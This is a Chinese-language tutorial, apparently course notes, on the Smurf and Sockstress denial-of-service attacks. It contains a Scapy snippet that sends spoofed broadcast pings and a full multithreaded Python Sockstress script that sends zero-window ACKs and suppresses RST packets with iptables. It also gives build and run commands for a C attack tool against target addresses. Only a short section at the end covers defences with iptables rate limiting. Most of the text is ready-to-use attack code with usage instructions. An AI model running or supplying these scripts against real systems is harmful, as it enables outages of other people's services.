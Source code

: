 
# Smurf 和 Sockstress

* Smurf

* Sockstress


## Smurf
> * 世界上最古老的DDoS攻击技术　（了解即可）
>   - 向广播地址发送伪造源地址的 ICMP echo Request（ping）包
>   - LAN所有计算机向伪造源地址返回响应包
>   - 对现代操作系统几乎无效（不响应目标为广播的ping）

* Scapy
```python
i=IP()
i=src="1.1.1.1"　　// 这个源地址即你要攻击的IP地址
i.dst="1.1.1.255"　　// 向广播地址发送ping数据包，因为设的源地址为1.1.1.1，所以其会想1.1.1.1回大量的数据包，这就是为什么说src就是你要攻击的IP地址
p=ICMP()
p.display()
r=(i/p)
send(IP(dst="1.1.1.255",src="1.1.1.2")/ICMP(),count=100,verbose=1)
```

## Sockstress

> * 2008年由Jack C. Louis 发现
> * 针对TCP服务的拒绝服务攻击
>   - 消耗被攻击目标系统资源
>   - 与攻击目标建立大量socket连接
>   - 完成三次握手，最后的ACK包 window 大小为 0（客户端不接收数据）
>   - 攻击者资源消耗小（CPU、内存、带宽）
>   - 异步攻击，单机可拒绝服务高配资源服务器
>   - Window窗口实现的TCP流控

* 实例1 - python
```python
#!/usr/bin/python
# -*- coding:utf-8 -*-
 
from scapy.all import *
from time import sleep
import thread
import logging
import os
import signal
import sys
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
 
if len(sys.argv) !=4:
    print("用法：./sock_stress.py [目标IP] [端口] [线程数]")
    print("举例：./sock_stress.py 10.0.0.2 21 20  #请确定被攻击端口处于开放状态")
    sys.exit()
    
target = str(sys.argv[1])
dstport = str(sys.argv[2])
thread = str(sys.argv[3])
 
## 攻击函数
def sockstress(target,dstport):
    while 0 == 0:
        try:
            x = random.randint(0,65535)
            response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags='S'),timeout=1,verbose=0)
            send(IP(dst=target)/TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)     // 这里关键参数是window=0
        except:
            pass
            
      
##  停止攻击函数
def shutdown(signal,frame):
    print("正在恢复 iptables规则 ")
    os.system('iptables -D OUTPUT -p tcp --tcp-flags RST RST -d' + target + '-j DROP')
    sys.exit()
    
##  添加iptables规则
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d' + target + '-j DROP')
signal.signal(signal.SIGINT,shutdown)

##  多线程攻击
print("\n 攻击正在进行.......按Ctrl+c停止攻击")
for x in range(0,threads):
    thread.start_new_thread(sockstress,(target,dstport))
    
##  永远执行
while 0 == 0:
    sleep(1)
```

* 实例2 - C 攻击脚本
> https://github.com/defuse/sockstress
> - gcc -Wall -c sockstress.c
> - gcc -pthread -o sockstress sockstress.o
> - ./sockstress 1.1.1.1:80 eth0
> - ./sockstress 1.1.1.1:80 eth0 -p payloads/http



* 防御措施
> * 直到今天sockstress攻击仍然是一种很有效的DoS攻击方式
> * 由于建立完整的TCP三步握手，因此使用syn cookie防御无效
> * 根本的防御方法是采用白名单（不实际）
> * 折中对策：限制单位时间内每IP建的TCP连接数
>    - 封杀每30秒与80端口建立连接超过10个的IP地址
>    - iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --set
>    - iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --update --seconds 30 --hitcount 10 -j DROP
>    - 以上规则对DDoS攻击无效